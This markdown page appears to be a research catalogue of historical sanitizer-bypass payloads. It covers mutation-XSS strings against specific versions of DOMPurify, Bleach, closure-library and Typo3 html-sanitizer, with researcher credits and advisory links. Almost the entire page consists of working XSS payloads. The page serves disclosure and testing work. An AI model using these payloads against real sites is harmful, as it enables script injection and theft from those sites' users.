 ```yaml
---
layout: page
title: Payload examples
---
```

This page contains some examples of payloads used to bypass sanitizers in the past. There are many other examples but to avoid redundancy we will add only ones that include new vectors or techniques.

## DomPurify

| Version | Payload                                                                                                                            | Credit                                             | Additional links                                                                                                                        |
|---------|----------------------------------------------------------------------------------------------------------------------------------  |----------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------|
| 2.0.0   | `<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">`                                                                    | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/dompurify-bypass-using-mxss/> |
| 2.0.17  | `<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>`                                                 | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/> |
| 2.0.17  | `<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">`     | Gareth Heyes [@garethheyes](https://twitter.com/garethheyes) | <https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss> |
| 2.0.17  | `<math><mtext><table><mglyph><style><math><table id=”</table>”><img src onerror=alert(1)”>`                                        | [@sqrtrev](https://twitter.com/sqrtrev) [@0xParrot](https://twitter.com/sqrtrev) @web_payload team [@GuesserSuper](https://twitter.com/GuesserSuper) | <https://twitter.com/0xsapra/status/1307929537749999616?ref_src=twsrc%5Etfw> |
| 2.2.0   | `<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">`                        | Daniel Santos [@bananabr](https://twitter.com/bananabr) | <https://vovohelo.medium.com/from-svg-and-back-yet-another-mutation-xss-via-namespace-confusion-for-dompurify-2-2-2-bypass-5d9ae8b1878f>  |
| 2.2.3   | `<svg><xss><desc><noscript>&lt;/noscript>&lt;/desc>&lt;p>&lt;/p>&lt;style>&lt;a title="&lt;/style>&lt;img src onerror=alert(1)>">` | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://twitter.com/SecurityMB/status/1341290687963262978> |
| 3.0.8   | `<svg><annotation-xml><foreignobject><style><!--</style><p id="--><img src='x' onerror='alert(1)'>">`                              | Kévin - Mizu [@kevin_mizu](https://twitter.com/kevin_mizu) | <https://mizu.re/post/playing-with-dompurify-ce-handling> |
| 3.1.0   | ```n = 506; var payload = `${"<div>".repeat(n)}<table id="outer"><caption id="outer"><svg><desc><table id="inner"><caption id="inner"></caption></table></desc><style><a title="</style><img src onerror=alert(1)>"></a></style></svg></caption></table>${"</div>".repeat(n)}`;``` | [icesfont](https://github.com/icesfont) | N/A |
| 3.1.7   | `<svg><a><foreignobject><a><table><a></table><style><!--</style></svg><a id="-><img src onerror=alert(1)>">.` | Masato Kinugawa [@kinugawamasato](https://twitter.com/kinugawamasato) | <https://x.com/kinugawamasato/status/1843687909431582830> |
| 3.2.1   | `<math><foo-test><mi><li><table><foo-test><li></li></foo-test>a<a><style><!--</style>a<foo-bar is="--><img src=x onerror=alert(1)>">` | Yaniv Nizry [@YNizry](https://twitter.com/YNizry) | <https://yaniv-git.github.io/2024/12/08/DOMPurify%203.2.1%20Bypass%20(Non-Default%20Config)/> |

## Mozilla Bleach

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| 3.1.0   | `<noscript><style></noscript><img src=x onerror=alert(1)>`                     | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://checkmarx.com/blog/vulnerabilities-discovered-in-mozilla-bleach/>  |
| 3.1.1   | `<svg><style><img src=x onerror=alert(1)>`                                     | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://checkmarx.com/blog/vulnerabilities-discovered-in-mozilla-bleach/>  |
| 3.2.3   | `<math><p></p><style><!--</style><img src/onerror=alert(1)>--></style></math>` | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://github.com/mozilla/bleach/security/advisories/GHSA-vv2x-vrpj-qqpq> |

## Google closure-library

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| v20190215   | `<noscript><p title="</noscript><img src=x onerror=alert(1)>">` | Masato Kinugawa [@kinugawamasato](https://twitter.com/kinugawamasato) | <https://github.com/google/closure-library/commit/c79ab48e8e962fee57e68739c00e16b9934c0ffa> <https://www.youtube.com/watch?v=lG7U3fuNw3A> |

## Typo3 html-sanitizer

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| 2.0.15   |  `<!--a foo=--!><img src=x onerror=alert(1)><!--<a>">` | David Klein [@ncd_leeN](https://twitter.com/ncd_leeN) | [CVE-2022-36020](https://github.com/TYPO3/html-sanitizer/security/advisories/GHSA-47m6-46mj-p235) |
| 2.0.16   | `<![CDATA[<math><img src=x onerror=alert(1)>]]>`     | David Klein [@ncd_leeN](https://twitter.com/ncd_leeN) | [CVE-2022-23499](https://github.com/TYPO3/html-sanitizer/security/advisories/GHSA-hvwx-qh2h-xcfj) |

